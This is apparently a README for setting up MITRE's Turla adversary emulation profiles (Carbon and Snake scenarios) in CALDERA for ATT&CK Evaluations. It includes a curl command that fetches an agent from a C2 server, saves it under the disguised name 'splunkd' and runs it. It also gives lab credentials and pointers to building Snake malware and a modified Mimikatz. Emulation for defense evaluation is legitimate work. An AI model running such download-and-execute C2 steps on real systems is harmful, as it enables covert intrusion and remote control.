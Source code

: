 # OVERVIEW

The Turla port contains two adversary profiles for each of the executed scenarios in MITRE Engenuity's ATT&CK® Evaluations: Enterprise - Round 5. **Follow the setup instructions below** and then navigate to the scenario-specific setup guides for the profile you would like to execute:

- [Carbon Scenario](Carbon_Scenario.md)
- [Snake Scenario](Snake_Scenario.md)

Information about each scenario can be found [here](../../Emulation_Plan/README.md).

# DEPENDENCIES

## CALDERA C2 Server
- Linux/Mac OS, 64-bit
- git commandline installed
- python3.8+ with pip3
- golang 1.17+
    - required for dynamic agent compilation
- Recommended hardware is 8GB+ RAM and 2+ CPUs

## Attacker Machine Dependencies
- Linux OS, 64-bit 
    - Kali recommended
    - Can be the same machine as the CALDERA C2 server
- Command-line tools
    - xfreerdp
    - xdotools
    - curl
    - urllib3
    - ncat (by Nmap)

# SETUP

## Download and Install CALDERA
Run the following on a Linux/Mac machine of your choice. This machine will act as your C2 server, or the "attacker" host. For the purposes of this walkthrough, the C2 server will have an IP address of `176.59.15.33`. 
```
git clone --depth 1 https://github.com/mitre/caldera.git --recursive
cd caldera
git checkout master && git pull
cp conf/default.yml conf/local.yml
cd plugins/emu
git checkout master && git pull
```

Add the `emu` plugin to your `conf/local.yml` configuration file. Feel free to enable or disable other plugins
by adding/removing them from the configuration file. You can also configure your user accounts and credentials if needed.
```
vi conf/local.yml
```

Download pip dependencies.
```
pip3 install --upgrade setuptools
pip3 install --upgrade pip
pip3 install -r requirements.txt
```

Download required payloads for `emu` plugin.
```
# from caldera/plugins/emu directory 

git checkout master && git pull
./download_payloads.sh
```

Run your C2 server from the caldera directory. This will unzip encrypted executables throughout the `adversary-emulation-library` and ingest its emulation plans.
```
# from caldera directory

python3 server.py --insecure --log DEBUG
```


## Compile Snake & Mimikatz Binaries

### Snake

:exclamation: Snake has not been included in this binaries.zip. Please visit the following
resources for building Snake and its components:
- [Snake Installer Build](../Snake/SnakeInstaller/README.md#build)
- [Snake Build Script](../Snake/buildall.ps1)

### Mimikatz

:exclamation: Mimikatz must be modified and compiled according to these [instructions](https://github.com/attackevals/turla/tree/public-release/Resources/Mimikatz#adjustments-made-to-mimikatz-pth-function). 

## Launch the Kali Agent

RDP to `176.59.15.33`, the Kali attacker host, as user `dev` with password `DevPass12345`. Launch the Kali agent by running the following command. You may need to modify the command so the server value matches your attacker host's IP address. 

:exclamation: Keep this RDP open as this will be leveraged by xfreerdp in the executed Caldera operation. Once the operation has been started, avoid interacting with the RDP to Kali. Clicking or switching windows within the Kali RDP will interfere with the user activity that is automated through Caldera.

```
cd /home/dev/caldera/plugins/emu/data/adversary-emulation-plans/turla/Resources/control_server;
server="http://176.59.15.33:8888";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd;
chmod +x splunkd;
./splunkd -server $server -group kali -v
```

Log into CALDERA's web GUI by accessing your C2 server address in a web browser (Chrome recommended), and using your credentials (default username is `red`, default password is `admin`).

On the left sidebar, under "Campaigns", click "agents" and confirm that you see the Kali agent beaconing in. 

For best results, make sure you don't have other agents currently beaconing in.
